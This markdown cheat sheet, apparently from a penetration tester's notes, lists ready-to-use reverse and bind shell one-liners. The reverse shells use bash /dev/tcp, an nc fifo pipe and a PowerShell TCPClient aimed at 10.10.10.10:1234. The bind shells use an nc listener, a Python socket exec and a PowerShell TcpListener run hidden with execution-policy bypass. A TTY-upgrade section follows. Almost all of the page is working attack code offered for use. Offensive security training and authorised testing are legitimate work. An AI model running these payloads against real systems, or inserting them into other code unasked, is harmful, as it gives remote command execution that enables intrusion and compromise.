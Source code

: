 ```yaml
---
description: Reverse and Bind shells
---
```


# Reverse & Bind Shells

## Reverse Shells

* [https://www.revshells.com/](https://www.revshells.com/)
* [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

```bash
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

{% code overflow="wrap" %}
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```
{% endcode %}

## Bind Shells

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp <PORT>/tmp/f
```

{% code overflow="wrap" %}
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",<PORT>));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]<PORT>; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endcode %}

## TTY Upgrade

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

{% code overflow="wrap" %}
```bash
remotuser@remotehost$ ^Z

$ stty raw -echo ; fg

[Enter]
[Enter]
```
{% endcode %}

```bash
$ echo $TERM

xterm-256color
$ stty size

67 318
remoteuser@remotehost$ export TERM=xterm-256color

remoteuser@remotehost$ stty rows 67 columns 318
```
